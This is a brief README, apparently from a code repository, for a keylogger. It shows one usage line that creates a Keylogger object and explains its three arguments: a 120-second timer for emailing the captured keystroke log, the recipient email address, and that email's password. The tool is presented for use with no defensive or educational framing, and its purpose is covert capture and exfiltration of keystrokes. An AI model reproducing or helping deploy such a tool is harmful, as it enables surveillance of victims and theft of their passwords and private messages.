 # Keylogger

> my_keylogger = Keylogger(120, "your-email", "email-password")

firts argument: timer (send the log to your email every 120 seconds)

second argument: your email (email where you want to receive the log)

third argument: email password